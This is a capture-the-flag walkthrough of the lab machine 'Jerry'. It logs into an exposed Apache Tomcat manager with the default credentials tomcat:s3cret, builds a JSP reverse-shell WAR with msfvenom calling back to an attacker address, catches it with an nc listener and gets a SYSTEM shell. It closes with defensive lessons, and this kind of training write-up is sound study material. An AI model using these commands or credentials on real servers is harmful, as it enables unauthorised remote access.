

Jerry runs one service: an Apache Tomcat manager with default credentials. Log in, deploy a reverse-shell WAR, and the shell comes back as SYSTEM. There's no privilege escalation, and both flags sit in the same file.

Flags are redacted.



## Recon

A full TCP scan finds a single open port:

```
sudo nmap -Pn -sS -p- -oA nmap 10.129.136.9
```

```
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

The header confirms Tomcat:

```
curl -I 10.129.136.9:8080/
```

```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
```

The index page is the default Tomcat 7.0.88 welcome screen, with links to the manager app at `/manager/html`.

## Manager login

The manager prompts for HTTP basic auth. Tomcat ships with a set of well-known default accounts that often survive into production, and `tomcat:s3cret` is one of the most common. It works here and lands on the Web Application Manager.



The page has a "Deploy" section that takes a WAR file and runs it. That's the way in: a WAR can contain a JSP, and a JSP runs code on the server.

## Reverse-shell WAR

msfvenom builds a JSP reverse shell packaged as a WAR:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.124 LPORT=4444 -f war > shell.war
```

`LHOST` is my VPN address. Start a listener for the callback:

```
nc -lnvp 4444
```

Then upload `shell.war` through the manager's Deploy form and open its path in a browser to trigger it. The listener catches the connection:

```
Connection received on 10.129.136.9 49193
Microsoft Windows [Version 6.3.9600]

C:\apache-tomcat-7.0.88>whoami
nt authority\system
```

Tomcat was running as SYSTEM, so the shell is SYSTEM. Nothing left to escalate.

## Loot

Both flags are in one file on the administrator's desktop, which is the box's name joke:

```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
user.txt
<redacted>

root.txt
<redacted>
```

## Notes

- The whole box is default credentials plus the manager's own deploy feature. No exploit, no CVE. The lesson is that an exposed admin panel with a default password is game over, and Tomcat managers are a common find on real engagements.
- Tomcat ran as SYSTEM here. A service account with fewer rights would have made this a user shell and a separate privilege-escalation problem.
- Quoting the flag path matters: the filename has spaces, so `type "2 for the price of 1.txt"` works where the unquoted version fails.
